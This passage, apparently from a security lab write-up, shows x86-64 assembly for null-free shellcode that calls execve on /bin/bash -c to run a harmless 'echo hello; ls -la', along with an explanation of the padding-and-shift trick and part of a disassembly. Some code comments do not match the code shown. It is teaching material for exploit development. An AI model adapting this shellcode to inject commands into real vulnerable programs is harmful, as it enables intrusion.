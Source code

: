 ```text
    mov rax, "echo hel"       ; "echo hello"
    push rax
    
    mov rcx, rsp 
    
    xor rax, rax 
    mov rax, 0xFFFFFFFFFFFF632d
    shl rax, 48
    shr rax, 48
    ;mov rax, "-c"               ; "-c"
    push rax
    
    mov rbp, rsp

    xor rax, rax
    mov al, "h"
    push rax
    
    
    xor rax, rax
    mov rax, "/bin/bas"
    push rax
    
    
    mov rdi, rsp                    ; rdi = address of "/bin/bash"

    
    push rdx            ; Push NULL as the end marker for argv[]         
    push rcx            ; Push the address of "echo hello; ls -la" as argv[2]
    push rbp            ; Push the address of "-c" as argv[1]
    push rdi            ; Push the address of "/bin/bash" as argv[0]
    
    mov rsi, rsp


    xor rax, rax
    mov al, 59                      ; execve syscall number (59)
    syscall
```

We had a problem when we pushed strings that did not fill the 8 bytes, such as **-c**, **la** and **h**. To resolve this we saved the **h** to al, which keeps the least significant byte of rax. For **-c** and **la** we could not use the same method as they ocupy 2 bytes. So, for these ones, we converted them to hex and added **0xFF** as padding, we then simply shifted left and right 48 bits and got the string to have padding **0x00**. Using these 2 methods we were able to remove all nulls as we can see bellow:

```text
alt_mysh64.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:	48 31 d2             	xor    rdx,rdx
   3:	52                   	push   rdx
   4:	48 31 c0             	xor    rax,rax
   7:	48 c7 c0 6c 61 ff ff 	mov    rax,0xffffffffffff616c
   e:	48 c1 e0 30          	shl    rax,0x30
  12:	48 c1 e8 30          	shr    rax,0x30
  16:	50                   	push   rax
  17:	48 31 c0             	xor    rax,rax
  1a:	48 b8 6c 6f 3b 20 6c 	movabs rax,0x2d20736c203b6f6c
  21:	73 20 2d 
```